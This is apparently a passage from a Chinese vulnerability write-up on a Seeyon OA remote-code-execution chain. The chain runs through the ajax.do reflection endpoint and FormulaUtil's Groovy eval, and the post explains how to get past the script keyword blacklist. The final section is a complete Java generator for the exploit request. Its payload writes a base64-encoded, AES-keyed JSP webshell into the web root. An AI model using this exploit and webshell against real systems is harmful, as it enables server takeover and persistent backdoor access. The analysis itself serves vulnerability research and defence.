[](https://xzfile.aliyuncs.com/media/upload/picture/20240220173020-aaa4ee52-cfd2-1.png)

以上就是`Ajax.do` 接口反射调用任意类任意方法及指定参数的分析过程。

通过`ajax.do`接口指定`method`参数为`ajaxAction`调用`AjaxController`类的`ajaxAction`方法，这个方法中又调用了`AjaxController`的`invokeService`方法，这个方法可以根据`类名`获取到该类的一个实例，进而调用了`AjaxController`的`invokeMethod`方法，进而反射调用该实例的方法。在这个过程中，反射调用所需的`类名`、`方法名`、`参数`都可以从`request`中获取到。要进行进一步利用需要找到存在一些危险操作的方法进行利用，如文件上传、文件写入、命令执行、代码执行等，如本次利用到的`FormulaManagerImpl`这个类。

**FormulaManagerImpl 分析**

FormulaManagerImpl.validate(Formula formula, String expression, Map context, boolean isSave)

[](https://xzfile.aliyuncs.com/media/upload/picture/20240220173030-b08ba932-cfd2-1.png)

调用了`FormulaUtil.validate`，跟入

com.seeyon.ctp.common.formula.FormulaUtil#validate(com.seeyon.ctp.common.po.formula.Formula, java.lang.String, java.util.Map, boolean)

```plain
public static boolean validate(Formula formula, String expression, Map context, boolean isSave) throws BusinessException {
        Object obj = null;
        if (formula.getFormulaType() != FormulaType.GroovyFunction.getKey() && formula.getFormulaType() != FormulaType.Variable.getKey()) {
            return false;
        } else {
            try {
                String script = formula.toString() + ";" + expression;
                // 执行 groovy 脚本
                obj = eval(script, context);
                validateReturnType(formula, obj);
            } catch (ScriptException var7) {
                LOG.error(ResourceUtil.getString("ctp.formulas.error.chekcFailed"), var7);
                throw new BusinessException("ctp.formulas.error.chekcFailed");
            } catch (StackOverflowError var8) {
                LOG.error("校验 Groovy 函数错误：", var8);
                throw new BusinessException("堆栈溢出，请检查是否有递归调用。");
            }

            if (!isSave && null != formula.getExpectValue()) {
                if (formula.getReturnType() != DataType.DateTime.getKey() && formula.getReturnType() != DataType.Date.getKey()) {
                    if (!obj.toString().equals(formula.getExpectValue())) {
                        throw new BusinessException("示例校验成功,检验结果与期望值不符,请检查!");
                    }
                } else {
                    try {
                        if (!DateUtil.parse(formula.getExpectValue()).equals(obj)) {
                            throw new BusinessException("示例校验成功,检验结果与期望值不符,请检查!");
                        }
                    } catch (ParseException var6) {
                        LOG.error(var6.getLocalizedMessage(), var6);
                        throw new BusinessException("示例校验成功,检验结果与期望值不符,请检查!");
                    }
                }
            }

            return true;
        }
    }
```

```plain
public static Object eval(String scriptText, Map context) throws ScriptException, BusinessException {
        log(scriptText);
        Map ctx = new HashMap(getFormulaContext());
        ctx.putAll(context);
        return ScriptEvaluator.getInstance(true).eval("import com.seeyon.ctp.common.AppContext;import static com.seeyon.ctp.common.formula.runtime.CtpFormula.*;" + scriptText, ctx);
    }
```

这个方法的作用就是构造`groovy`脚本，调用`eval`方法执行。

要利用`FormulaUtil.validate`方法，需要传入`Formula`对象、`String expression`, `Map context`, `boolean isSave`。

需要绕过的几个限制

```plain
if (formula.getFormulaType() != FormulaType.GroovyFunction.getKey() && formula.getFormulaType() != FormulaType.Variable.getKey()) {
            return false;
}
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240220173043-b84fb17c-cfd2-1.png)

在执行到 eval 方法前，`Formula`对象的`formulaType`值要为`1`或者`2`才不会`return`出去。

在`eval`方法中执行了`log`方法

[](https://xzfile.aliyuncs.com/media/upload/picture/20240220173051-bcdf815e-cfd2-1.png)

```plain
private static void log(String script) throws BusinessException {
        Iterator var1 = SCRIPT_BLACKLIST.iterator();

        String keyword;
        do {
            if (!var1.hasNext()) {
                SCRIPTLOG.info(Strings.getRemoteAddr(WebUtil.getRequest()) + "," + AppContext.currentUserLoginName() + "," + script);
                return;
            }

            keyword = (String)var1.next();
        } while(script.indexOf(keyword) <= -1);

        throw new BusinessException("脚本中不允许使用：" + keyword);
    }
```

log 方法主要是对脚本中的内容进行检测，不运行字符串中出现如下字符，但是不够严谨，可以用其他方法代替黑名单中的方法。

[](https://xzfile.aliyuncs.com/media/upload/picture/20240220173059-c1d75448-cfd2-1.png)

因为是调用的`formula.toString`方法

[](https://xzfile.aliyuncs.com/media/upload/picture/20240220173134-d65cc434-cfd2-1.png)

[](https://xzfile.aliyuncs.com/media/upload/picture/20240220173129-d356d2ac-cfd2-1.png)

可以通过`this.formulaExpression`来传入我们想要执行的代码。

最后根据如上条件，我写了一个生成`arguments`参数的方法，可在`payload`自定义想要执行的代码。

```plain
package com.example.Test;

import com.seeyon.ctp.common.formula.FormulaUtil;
import com.seeyon.ctp.common.log.CtpLogFactory;
import com.seeyon.ctp.common.po.formula.Formula;
import com.seeyon.ctp.common.script.ScriptEvaluator;
import com.seeyon.ctp.util.ZipUtil;
import com.seeyon.ctp.util.json.JSONUtil;
import org.apache.commons.logging.Log;

import java.net.URLEncoder;
import java.util.ArrayList;
import java.util.HashMap;


public class Test {
    private static final Log LOGGER = CtpLogFactory.getLog(Test.class);
    public static void main(String[] args) throws Exception{
        final Formula formula = new Formula();
        //         if (formula.getFormulaType() != FormulaType.GroovyFunction.getKey() && formula.getFormulaType() != FormulaType.Variable.getKey()) {
        formula.setFormulaType(2);
        formula.setFormulaName("test");

        String payload = "" +
                "def filePath = \"../webapps/ROOT/mzr2.j"+"sp\";" +
                "java.io.File file = new java.io.File(filePath);" +
                "String shell=\"PCVAcGFnZSBpbXBvcnQ9ImphdmEudXRpbC4qLGphdmEuaW8uKixqYXZheC5jcnlwdG8uKixqYXZheC5jcnlwdG8uc3BlYy4qIiU+PCUhY2xhc3MgVSBleHRlbmRzIENsYXNzTG9hZGVyIHsKCQlVKENsYXNzTG9hZGVyIGMpIHsKCQkJc3VwZXIoYyk7CgkJfQoJCXB1YmxpYyBDbGFzcyBnKGJ5dGVbXSBiKSB7CgkJCXJldHVybiBzdXBlci5kZWZpbmVDbGFzcyhiLCAwLCBiLmxlbmd0aCk7CgkJfQoJfSU+CjwlCnRyeXsKCQlTdHJpbmcga2V5PSI5MDBiYzg4NWQ3NTUzMzc1IjsKCQlyZXF1ZXN0LnNldEF0dHJpYnV0ZSgic2t5Iiwga2V5KTsKCQlTdHJpbmcgZGF0YT1yZXF1ZXN0LmdldFJlYWRlcigpLnJlYWRMaW5lKCk7CgkJaWYgKGRhdGEhPSBudWxsKSB7CgkJCVN0cmluZyB2ZXIgPSBTeXN0ZW0uZ2V0UHJvcGVydHkoImphdmEudmVyc2lvbiIpOwoJCQlieXRlW10gY29kZT1udWxsOwoJICAgICAgICBpZiAodmVyLmNvbXBhcmVUbygiMS44IikgPj0gMCkgewoJICAgICAgICAgICAgQ2xhc3MgQmFzZTY0ID0gQ2xhc3MuZm9yTmFtZSgiamF2YS51dGlsLkJhc2U2NCIpOwoJICAgICAgICAgICAgT2JqZWN0IERlY29kZXIgPSBCYXNlNjQuZ2V0TWV0aG9kKCJnZXREZWNvZGVyIiwgKENsYXNzW10pIG51bGwpLmludm9rZShCYXNlNjQsIChPYmplY3RbXSkgbnVsbCk7CgkgICAgICAgICAgICBjb2RlID0gKGJ5dGVbXSkgRGVjb2Rlci5nZXRDbGFzcygpLmdldE1ldGhvZCgiZGVjb2RlIiwgbmV3IENsYXNzW117Ynl0ZVtdLmNsYXNzfSkuaW52b2tlKERlY29kZXIsIG5ldyBPYmplY3RbXXtkYXRhLmdldEJ5dGVzKCJVVEYtOCIpfSk7CgkgICAgICAgIH0gZWxzZSB7CgkgICAgICAgICAgICBDbGFzcyBCYXNlNjQgPSBDbGFzcy5mb3JOYW1lKCJzdW4ubWlzYy5CQVNFNjREZWNvZGVyIik7CgkgICAgICAgICAgICBPYmplY3QgRGVjb2RlciA9IEJhc2U2NC5uZXdJbnN0YW5jZSgpOwoJICAgICAgICAgICAgY29kZSA9IChieXRlW10pIERlY29kZXIuZ2V0Q2xhc3MoKS5nZXRNZXRob2QoImRlY29kZUJ1ZmZlciIsIG5ldyBDbGFzc1tde1N0cmluZy5jbGFzc30pLmludm9rZShEZWNvZGVyLCBuZXcgT2JqZWN0W117ZGF0YX0pOwoJICAgICAgICB9CgkJCUNpcGhlciBjID0gQ2lwaGVyLmdldEluc3RhbmNlKCJBRVMiKTsKCQkJYy5pbml0KDIsIG5ldyBTZWNyZXRLZXlTcGVjKGtleS5nZXRCeXRlcygpLCAiQUVTIikpOwoJCQluZXcgVSh0aGlzLmdldENsYXNzKCkuZ2V0Q2xhc3NMb2FkZXIoKSkuZyhjLmRvRmluYWwoY29kZSkpLm5ld0luc3RhbmNlKCkuZXF1YWxzKHBhZ2VDb250ZXh0KTsKCQl9Cgl9Y2F0Y2goRXhjZXB0aW9uIGUpewp9OwpvdXQ9cGFnZUNvbnRleHQucHVzaEJvZHkoKTsKJT4=\";"+
                "sun.misc.BASE64Decoder decoder = new sun.misc.BASE64Decoder();" +
                "String decodeString = new String(decoder.decodeBuffer(shell),\"UTF-8\");"+
                "file << decodeString;};" +
                "test();" +
                "def static xxx(){";

        formula.setFormulaExpression(payload);
        final String string = JSONUtil.toJSONString(formula);
//        System.out.println(string);

        final ArrayList<Object> list = new ArrayList<>();
        list.add(formula);
        list.add("");
        list.add(new HashMap<>());
        list.add(true);
        final String list1 = JSONUtil.toJSONString(list);
//        System.out.println(list1);
        String strArgs = ZipUtil.compressResponse(list1, "gzip", "UTF-8", LOGGER);
//        System.out.println(strArgs);
        System.out.println(URLEncoder.encode(strArgs));
        System.out.println("end");

    }
}
```
